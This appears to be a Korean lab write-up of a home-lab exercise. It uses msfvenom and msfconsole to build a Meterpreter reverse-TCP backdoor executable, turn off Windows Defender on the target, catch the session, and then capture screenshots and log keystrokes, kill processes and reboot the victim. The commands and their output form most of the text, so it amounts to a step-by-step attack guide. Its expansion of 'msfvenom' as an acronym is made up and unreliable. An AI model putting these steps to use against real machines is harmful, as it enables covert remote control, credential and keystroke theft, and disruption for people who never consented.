# MSF(Meta Sploit Framework, 해킹도구)를 이용한  Backdoor(백도어, 악성코드를 생성하는 도구) 해킹

## 1. 개요

### msfvenom
- Meta Sploit Framework(작업 환경) Virtualization Environment Negleted Operations Manupulation 
- 메트 스플로잇 프레임워크의 가상환경을 무시하는 운영 속임수를 말한다.
- 해킹도구를 사용하는 작업환경에서 가상 환경으로 작업할 수 있도록 하는 전체적인 작업 형태

### Meta Sploit 생성기를 이용한 생성
- 메타 스플로잇 프레임워크의 가상환경을 무시하는 운영 속임수에 필요한 데이터를 생성하는 것
- 해커가 실제 공격 대상이 되는 pc에 전송하려는 데이터(악성코드) 또는 침투 성공 후 본격적으로 수행할 일들의 총칭

## 2. 🖥️ 실습 환경 (NAT 구성)

### ✅ Windows 10
- IP: `192.168.10.130`
- 게이트웨이: `192.168.10.2`
- DNS: `192.168.10.2`

### ✅ Kali(Attacker)
- IP: `192.168.10.128`
- 게이트웨이: `192.168.10.2`
- DNS: `192.168.10.2`


## 3. 사용법

```
Example: /usr/bin/msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP> -f exe -o payload.exe
```


---

### 📌 명령어 구성 설명

| 항목 | 설명 |
|------|------|
| `/usr/bin/msfvenom` | msfvenom 명령어 실행 |
| `-p windows/meterpreter/reverse_tcp` | **Payload(유효 탑재량)**<br>→ Windows 시스템 대상, Meterpreter 리버스 쉘 |
| `LHOST=<IP>` | **공격자 IP 주소** (Listener가 대기할 IP) |
| `(옵션) LPORT=<포트>` | **공격자 포트 번호** (기본은 4444, 필요시 변경 가능) |
| `-f exe` | **출력 파일 포맷** 지정 (여기서는 `.exe` 실행 파일) |
| `-o payload.exe` | **생성될 악성코드 파일 이름**<br>→ 원하는 이름으로 지정 가능 |

---

### ✅ 결과

- 위 명령어 실행 시, `payload.exe` 파일이 생성됨.
- 해당 파일이 실행되면 **공격자 시스템과 리버스 연결**이 이루어짐 (Meterpreter 세션 확보).

## 4. 악성코드 생성


```
sudo msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.10.128 -f exe -o /home/samadal/madal.exe
```
SCP로 Kali에 있는 madal.exe 파일 옮기기

```
scp samadal@192.168.10.128:/home/samadal/madal.exe C:\
```
## 5. 악성코드 실행

- Payload 실행 1. 오류 


```
sudo msfconsole
```





```
use exploit/multi/handler

set payload windows/meterpreter/reverse_tcp

set lhost 192.168.10.128

set ExitOnSession false

exploit -j -z

sessions -l

```
**현재 목록에 아무것도 안나옴** 


## 🛡️ 윈도우 보안 설정 및 포트 확인 과정

### 🔧 1. 실시간 보호 끄기 (Windows Defender 비활성화)

- 경로:  
  **개인 설정 → 홈 → 업데이트 및 보안 → Windows 보안 → 바이러스 및 위협 방지 → 설정 관리 → 실시간 보호 끔**  
  이후, **보호 기록 복원** 가능

---

작업 관리자에서 실행 중인 madal.exe 확인


4444 포트 추가 후 



## 결론 설명 




## 6. 테스트

**help**
: help -> meterpreter 명령어 도움말(옵션 포함)

**sysinfo**
>Victim 시스템 정보 확인
```
meterpreter > sysinfo
Computer        : WIN10
OS              : Windows 10 (10.0 Build 19045).
Architecture    : x64
System Language : ko_KR
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x86/windows
```
**getuid**
>공격을 통해 획득한 Victim 시스템의 사용자 계정 정보 확인
```
meterpreter > getuid
Server username: WIN10\Administrator
```

**ls ,dir** 
>Victim 시스템에 접근한 현재 디렉터리의 내용 확인



**ps**
>Process 정보 확인

**screenshot**
> Victim 시스템의 현재 출력되어 있는 화면 캡쳐





키 스케닝
> keyscan_start <br>
> keyscan_dump <br>
> keyscan_stop

- keystroke(키보드로 입력하는 행위)
```
meterpreter > keyscan_start                 (keystroke 시작)
Starting the keystroke sniffer ...          (keystroke 덤핑)
meterpreter > keyscan_dump                  (keystroke 중지)
Dumping captured keystrokes...
```

c드라이브에 CloudDX 폴더 만들기
cmd창에서 
```
C:\Users\Administrator>dir
 C 드라이브의 볼륨에는 이름이 없습니다.
 볼륨 일련 번호: F8EC-8281

 C:\Users\Administrator 디렉터리

2025-05-13  오후 12:46    <DIR>          .
2025-05-13  오후 12:46    <DIR>          ..
2025-05-13  오후 12:46    <DIR>          .ssh
2025-03-13  오후 12:04    <DIR>          3D Objects
2025-03-13  오후 12:04    <DIR>          Contacts
2025-03-13  오후 01:09    <DIR>          Desktop
2025-03-13  오후 12:04    <DIR>          Documents
2025-03-13  오후 12:04    <DIR>          Downloads
2025-03-13  오후 12:04    <DIR>          Favorites
2025-03-13  오후 12:04    <DIR>          Links
2025-03-13  오후 12:04    <DIR>          Music
2025-03-13  오후 12:06    <DIR>          OneDrive
2025-03-13  오후 12:06    <DIR>          Pictures
2025-03-13  오후 12:04    <DIR>          Saved Games
2025-03-13  오후 12:06    <DIR>          Searches
2025-05-13  오전 11:46    <DIR>          Videos
               0개 파일                   0 바이트
              16개 디렉터리  39,355,318,272 바이트 남음
```

```
C:\Users\Administrator>cd \

C:\>dir
 C 드라이브의 볼륨에는 이름이 없습니다.
 볼륨 일련 번호: F8EC-8281

 C:\ 디렉터리

2025-05-13  오후 02:47    <DIR>          CloudDX
2025-05-09  오후 04:02    <DIR>          inetpub
2025-05-13  오후 12:46            73,802 madal.exe
2019-12-07  오후 06:14    <DIR>          PerfLogs
2025-03-13  오후 01:19    <DIR>          Program Files
2025-03-13  오후 12:56    <DIR>          Program Files (x86)
2025-03-13  오후 12:12    <DIR>          Users
2025-05-09  오후 04:03    <DIR>          Windows
               1개 파일              73,802 바이트
               7개 디렉터리  39,355,318,272 바이트 남음
```

```
C:\>cd CloudDX

C:\CloudDX>dir
 C 드라이브의 볼륨에는 이름이 없습니다.
 볼륨 일련 번호: F8EC-8281

 C:\CloudDX 디렉터리

2025-05-13  오후 02:47    <DIR>          .
2025-05-13  오후 02:47    <DIR>          ..
               0개 파일                   0 바이트
               2개 디렉터리  39,355,256,832 바이트 남음
```

```
meterpreter > keyscan_dump
Dumping captured keystrokes...
<Left Windows><Right Shift>Cl<^H><^H><Right Shift>Cloud<Right Shift>DX<CR>
<Left Windows><CR>
dir<CR>
cd \<CR>
dir<CR>
cd c<^H><Right Shift>Cl<Tab><CR>
dir<CR>
<CR>
<CR>
<CR>
```

```
meterpreter > ps | grep cmd
Filtering on 'cmd'

Process List
============

 PID   PPID  Name     Arch  Session  User                 Path
 ---   ----  ----     ----  -------  ----                 ----
 4912  4592  cmd.exe  x64   1        WIN10\Administrator  C:\Windows\System32\cmd.exe

meterpreter > kill 4912
Killing: 4912          ----------> 윈도우 cmd창 종료됨
meterpreter > reboot   ----------> 윈도우에서 다시 시작함
Rebooting...
meterpreter >
[*] 192.168.10.130 - Meterpreter session 1 cl osed.  Reason: Died
```

>reboot, shutdonw<br>

>Victim 시스템의 재시작/종료


